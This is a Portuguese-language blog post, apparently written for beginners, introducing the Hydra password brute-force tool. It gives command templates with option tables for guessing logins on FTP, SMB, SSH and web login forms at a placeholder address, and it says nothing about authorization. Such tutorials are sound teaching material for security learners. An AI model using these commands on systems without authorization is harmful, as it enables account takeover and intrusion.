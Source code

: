 ```yaml
---
layout: post
title: Hydra Brute Force
author: 'Antony Leite'
date: 2020-07-22 12:00:00 -0300
lide: Hydra. Uma ferramenta de cracker de login rápida, estável e eficiente que descobre senhas através do método de Brute Force utilizando dicionários(wordlists), nesse post você irá ter uma breve introdução a essa excelente ferramenta.
---
```


## Hydra Brute Force.

Basicamente o Hydra utiliza o método de brute force (tentativa e erro) para descobrir senhas. Ela faz uso de dicionários que contém diversas variedades e combinações de senhas e de logins. Essa ferramenta tem suporte para diversos protocolos, tais como FTP, SMB, SSH, MySQL, formulários web entre outros. Nesse breve introdução, vamos abordar o uso do Hydra nos serviços de FTP, SMB e SSH e formulário web.

Lembrando que você pode rodar o comando **`$ hydra -h`** que você irá ver a opção de ajuda do Hydra.

## Hydra FTP

FTP (*File Transfer Protocol*) é protocolo de transferência de arquivos. Um dos mais antigos em uso hoje em dia.

Para usar o Hydra em alguns serviço FTP basta seguir a sintaxe abaixo:

**`hydra -L <dicionário de usuários.txt> -P <dicionário de senhas.txt> ftp://10.10.10.10`**

Ou

**`hydra -l <usuário> -p <senha> ftp://10.10.10.10`**

<table class="table">
  <thead>
    <tr>
      <th scope="col">Opção</th>
      <th scope="col">Descrição</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>-l</td>
      <td>Setar um único usuário</td>
    </tr>
    <tr>
      <td>-L</td>
      <td>Setar um dicionário de usuários</td>
    </tr>
    <tr>
      <td>-p</td>
      <td>Setar uma única senha</td>
    </tr>
    <tr>
      <td>-P</td>
      <td>Setar um dicionário de senhas</td>
    </tr>
  </tbody>
</table>


## Hydra SMB


SMB (*Server Message Block*) é é um protocolo para compartilhar arquivos, impressoras, portas seriais e abstrações de comunicações, um servidor cliente, protocolo de solicitação-resposta.

**`hydra -L <dicionário de usuários.txt> -P <dicionário de senhas.txt> 10.10.10.10 smb`**

<table class="table">
  <thead>
    <tr>
      <th scope="col">Opção</th>
      <th scope="col">Descrição</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>-L</td>
      <td>Setar um dicionário de usuários</td>
    </tr>
    <tr>
      <td>-P</td>
      <td>Setar um dicionário de senhas</td>
    </tr>
    <tr>
      <td>smb</td>
      <td>Protocolo</td>
    </tr>
  </tbody>
</table>

## Hydra SSH

Secure Shell (*SSH*) é geralmente usado para acessar sistemas operacionais semelhantes ao Unix, mas também pode ser usado no Microsoft Windows. O Windows 10 usa o OpenSSH como seu cliente SSH padrão e servidor SSH.

Para usar o Hydra no serviço de SSH basta seguir a sintaxe abaixo:

**`$ hydra -L <dicionário de usuários.txt> -P <dicionário de senhas.txt> 10.10.10.10 ssh`**

<table class="table">
  <thead>
    <tr>
      <th scope="col">Opção</th>
      <th scope="col">Descrição</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>-L</td>
      <td>Setar um dicionário de usuários</td>
    </tr>
    <tr>
      <td>-P</td>
      <td>Setar um dicionário de senhas</td>
    </tr>
    <tr>
      <td>ssh</td>
      <td>Protocolo</td>
    </tr>
  </tbody>
</table>


## Hydra Formulários Web

Podemos usar o Hydra para Brute Force em formulários web, porém você terá  que saber qual tipo de solicitação que o site está fazendo, se é o método GET ou POST. Para você saber qual método o site está solicitando você pode fazer uso das ferramentas de desenvolvedor do seu navegador.

Você pode usar o seguinte comando para o método POST:

**`hydra -L <dicionário de usuários.txt> -P <dicionário de senhas.txt> 10.10.10.10 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`**

<table class="table">
  <thead>
    <tr>
      <th scope="col">Opção</th>
      <th scope="col">Descrição</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>-L</td>
      <td>Setar um dicionário de usuários</td>
    </tr>
    <tr>
      <td>-P</td>
      <td>Setar um dicionário de senhas</td>
    </tr>
    <tr>
      <td>http-post-form</td>
      <td>Protocolo</td>
    </tr>
  </tbody>
</table>

E o seguinte comando para o método GET:

**`hydra -L <dicionário de usuários.txt> -P <dicionário de senhas.txt> 10.10.10.10 http-get-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`**

<table class="table">
  <thead>
    <tr>
      <th scope="col">Opção</th>
      <th scope="col">Descrição</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>-L</td>
      <td>Setar um dicionário de usuários</td>
    </tr>
    <tr>
      <td>-P</td>
      <td>Setar um dicionário de senhas</td>
    </tr>
    <tr>
      <td>http-get-form</td>
      <td>Protocolo</td>
    </tr>
  </tbody>
</table>

## Observação!

Saiba que você pode pode mesclar as opções, elas variam de acordo com sua necessidade. Vamos supor que você já tem o usuário do SSH e quer somente descobrir a senha, basta você usar seguinte comando:

**`$ hydra -l <usuário> -P <dicionário de senhas.txt> 10.10.10.10 ssh`**

<table class="table">
  <thead>
    <tr>
      <th scope="col">Opção</th>
      <th scope="col">Descrição</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>-l</td>
      <td>Setar um único usuário</td>
    </tr>
    <tr>
      <td>-P</td>
      <td>Setar um dicionário de senhas</td>
    </tr>
    <tr>
      <td>ssh</td>
      <td>Protocolo</td>
    </tr>
  </tbody>
</table>

